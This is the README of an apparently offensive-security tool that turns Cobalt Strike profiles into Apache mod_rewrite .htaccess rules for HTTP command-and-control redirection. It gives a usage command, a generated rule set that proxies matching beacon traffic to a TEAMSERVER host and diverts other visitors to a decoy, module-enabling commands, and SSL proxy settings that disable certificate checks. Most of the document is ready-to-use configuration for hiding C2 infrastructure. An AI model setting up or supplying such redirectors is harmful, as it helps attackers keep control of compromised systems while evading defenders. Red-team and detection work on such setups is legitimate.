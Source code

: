 # Convert Cobalt Strike profiles to Apache mod_rewrite .htaccess files to support HTTP C2 Redirection

This is a quick script that converts a Cobalt Strike profile to a base mod_rewrite .htaccess file to support HTTP redirection with Cobalt Strike

You will most likely want to tune and test before use, but it does help get the script started.

This was heavily based on the work by Jeff Dimmock @bluescreenofjeff

__Updates and Features__

 - Uses the Profile User-Agent and Endpoint URI to create rewrite rules
 - Support CobaltStrike 3.10 HTTP Stager
 - Template for Scripted Web Delivery support

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use script with your Apache redirector

## Example

    python csToModrewrite.py -i havex.profile -c http://TEAMSERVER -d http://GOHERE
    
    RewriteEngine On
    
    # Scripted Web Delivery (Optional)
    # Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/imgs/logo1.png?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ http://TEAMSERVER%{REQUEST_URI} [P]
    #RewriteCond %{REQUEST_URI} ^/..../?$
    
    # C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs) 
    RewriteCond %{REQUEST_URI} ^/(/include/template/isx.php|/wp06/wp-includes/po.php|/wp08/wp-includes/dtcla.php|/modules/mod_search.php|/blog/wp-includes/pomo/src.php|/includes/phpmailer/class.pop3.php|/api/516280565958|/api/516280565959)/?$
    RewriteCond %{HTTP_USER_AGENT} ^Mozilla/5\.0\ (Windows;\ U;\ MSIE\ 7\.0;\ Windows\ NT\ 5\.2)\ Java/1\.5\.0_08)?$
    RewriteRule ^.*$ http://TEAMSERVER{REQUEST_URI} [P]
    
    # Redirect All other traffic here
    RewriteRule ^.*$ http://GOHERE/? [L,R=302]

----------------------------------------------
## Apache Rewrite Setup and Tips

__Enable Rewrite and Proxy__

    a2enmod rewrite
    a2enmod proxy
    a2enmod proxy_http
    service apache2 reload

__SSL support requires the following in the site config__

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generate by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

## References


[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)